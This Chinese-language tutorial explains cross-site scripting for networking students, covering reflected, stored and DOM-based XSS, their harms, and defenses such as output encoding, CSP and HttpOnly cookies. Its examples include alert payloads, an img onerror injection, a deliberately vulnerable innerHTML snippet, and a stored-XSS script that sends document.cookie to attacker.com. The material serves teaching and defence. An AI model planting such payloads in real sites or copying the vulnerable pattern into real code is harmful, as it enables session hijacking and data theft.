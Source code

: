 ## XSS攻击原理：云计算和网络专业学生不可忽视的Web安全漏洞

在Web应用日益普及的今天，Web安全变得越来越重要。作为未来的云计算工程师和网络工程师，我们不仅要关注系统的可用性和性能，更要重视系统的安全性。今天，我们就来聊聊Web安全中一个非常常见的漏洞——跨站脚本攻击（Cross-Site Scripting，简称XSS）。

### 什么是XSS攻击？

XSS攻击是一种注入攻击，攻击者通过将恶意脚本注入到Web页面中，当用户浏览这些页面时，恶意脚本会在用户的浏览器上执行，从而窃取用户的信息、篡改页面内容或者进行其他恶意操作。

**形象地说：** 想象一下你正在浏览一个论坛，一个恶意的用户发布了一个包含恶意代码的帖子。当你打开这个帖子时，你浏览器会自动执行帖子中的恶意代码，就像你信任了这个论坛一样。

### XSS攻击的分类

XSS攻击主要分为三种类型：反射型XSS、存储型XSS和基于DOM的XSS。

1.  **反射型XSS (Reflected XSS)**

    *   **原理：** 反射型XSS是最简单的一种XSS攻击。它通常发生在用户点击了包含恶意脚本的链接或者提交了包含恶意脚本的表单时。恶意脚本会作为请求参数的一部分发送到服务器，服务器未经任何处理直接将恶意脚本返回给浏览器，浏览器解析并执行这些脚本，从而导致XSS攻击。

    *   **过程：**
        1.  攻击者构造一个包含恶意脚本的URL。
        2.  攻击者诱使用户点击该URL（例如，通过钓鱼邮件）。
        3.  用户点击URL后，浏览器将包含恶意脚本的URL发送到服务器。
        4.  服务器将恶意脚本作为响应的一部分返回给浏览器。
        5.  浏览器解析并执行恶意脚本。

    *   **示例：**

        假设一个搜索框的URL是：`https://example.com/search?query=<用户输入>`

        攻击者可以构造一个包含恶意脚本的URL：`https://example.com/search?query=<script>alert('XSS')</script>`

        当用户点击这个URL时，如果服务器没有对`query`参数进行过滤，那么浏览器将会执行`alert('XSS')`，弹出一个警告框。

    *   **特点：**  非持久性，恶意脚本只在用户点击恶意链接的时候执行一次。

2.  **存储型XSS (Stored XSS)**

    *   **原理：**  存储型XSS也被称为持久型XSS。攻击者将恶意脚本存储到服务器的数据库中，例如在评论区、用户资料等地方。当其他用户访问包含恶意脚本的页面时，服务器将恶意脚本从数据库中取出并返回给浏览器，浏览器执行这些脚本，从而导致XSS攻击。

    *   **过程：**
        1.  攻击者将包含恶意脚本的数据提交到服务器，例如发布包含`<script>alert('XSS')</script>`的评论。
        2.  服务器将恶意脚本存储到数据库中。
        3.  其他用户访问包含该评论的页面时，服务器从数据库中取出恶意脚本并返回给浏览器。
        4.  浏览器解析并执行恶意脚本。

    *   **示例：**

        假设一个论坛允许用户发布评论。攻击者可以在评论中插入以下代码：`<script>window.location='http://attacker.com/cookieStealer?cookie='+document.cookie;</script>`

        当其他用户浏览这个评论时，他们的Cookie信息将会被发送到攻击者的服务器。

    *   **特点：**  持久性，恶意脚本会一直存在于服务器上，直到被清除。影响范围广。

3.  **基于DOM的XSS (DOM-based XSS)**

    *   **原理：**  基于DOM的XSS是一种特殊的XSS攻击。它发生在恶意脚本的执行完全发生在客户端，服务器不参与其中。攻击者通过修改页面的DOM（Document Object Model）来注入恶意脚本。

    *   **过程：**
        1.  攻击者构造一个包含恶意脚本的URL或者利用页面上的漏洞。
        2.  用户访问包含恶意脚本的URL或者触发页面上的漏洞。
        3.  浏览器解析HTML，执行JavaScript。
        4.  JavaScript动态修改DOM，将恶意脚本注入到页面中。
        5.  浏览器执行被注入的恶意脚本。

    *   **示例：**

        假设一个网站使用JavaScript从URL的hash部分获取参数，并将其显示在页面上：

        ```javascript
        var message = document.location.hash.substring(1);
        document.getElementById('message').innerHTML = message;
        ```

        攻击者可以构造一个URL：`https://example.com/page#<img src=x onerror=alert('XSS')>`

        当用户访问这个URL时，JavaScript会将`<img src=x onerror=alert('XSS')>`插入到`message`元素的innerHTML中。由于`src=x`不是一个有效的图片地址，`onerror`事件会被触发，执行`alert('XSS')`。

    *   **特点：**  客户端执行，不经过服务器。 更难检测。

### XSS攻击的危害

XSS攻击可能造成的危害包括：

*   **窃取用户Cookie：** 攻击者可以窃取用户的Cookie，从而冒充用户登录，获取用户的敏感信息。
*   **篡改页面内容：** 攻击者可以篡改页面的内容，例如修改银行账号、发布虚假信息。
*   **重定向用户：** 攻击者可以将用户重定向到恶意网站，进行钓鱼攻击或者传播恶意软件。
*   **键盘记录：** 攻击者可以记录用户的键盘输入，从而获取用户的账号密码。
*   **进行其他恶意操作：** 攻击者可以利用XSS漏洞执行各种恶意操作，例如发送垃圾邮件、发起DDoS攻击等。

### 如何防御XSS攻击

防御XSS攻击的方法主要包括：

1.  **输入验证 (Input Validation)**

    *   对用户输入的数据进行严格的验证，只允许输入符合预期格式的数据。
    *   例如，限制用户名只能包含字母和数字，限制评论的长度等。

2.  **输出编码 (Output Encoding)**

    *   对输出到HTML页面的数据进行编码，将特殊字符转换为HTML实体。
    *   例如，将`<`转换为`&lt;`，将`>`转换为`&gt;`，将`"`转换为`&quot;`等。
    *   常用的编码函数包括：`htmlspecialchars()` (PHP),  `escapeHtml()` (Java),  `HTMLEncode()` (.NET)等。

3.  **使用安全的模板引擎**

    *   许多模板引擎会自动对输出进行编码，从而防止XSS攻击。
    *   例如，Twig (PHP),  Jinja2 (Python)等。

4.  **设置HTTP Header：Content Security Policy (CSP)**

    *   CSP是一种HTTP响应头，允许网站管理员控制浏览器可以加载哪些资源。
    *   通过设置CSP，可以限制浏览器只能加载来自特定域名的脚本，从而防止恶意脚本的执行。
    *   例如：`Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com`

5.  **使用XSS过滤器**

    *   一些浏览器内置了XSS过滤器，可以检测并阻止一部分XSS攻击。
    *   但是XSS过滤器并不是万能的，不能完全依赖它。

6.  **对Cookie设置HttpOnly属性**

    *   HttpOnly属性可以防止JavaScript访问Cookie，从而防止攻击者通过XSS漏洞窃取Cookie。
    *   例如：`Set-Cookie: sessionid=12345; HttpOnly`

### 总结

XSS攻击是一种非常常见的Web安全漏洞，我们必须对其原理和危害有深入的了解。作为云计算和网络专业的学生，我们需要掌握防御XSS攻击的方法，从而构建更加安全的Web应用。

希望这篇文章能够帮助大家更好地理解XSS攻击。如果大家有任何问题，欢迎在评论区留言。

**进一步学习：**

*   OWASP XSS (Cross Site Scripting) Prevention Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
*   PortSwigger Web Security Academy: [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

希望以上内容对您有所帮助！
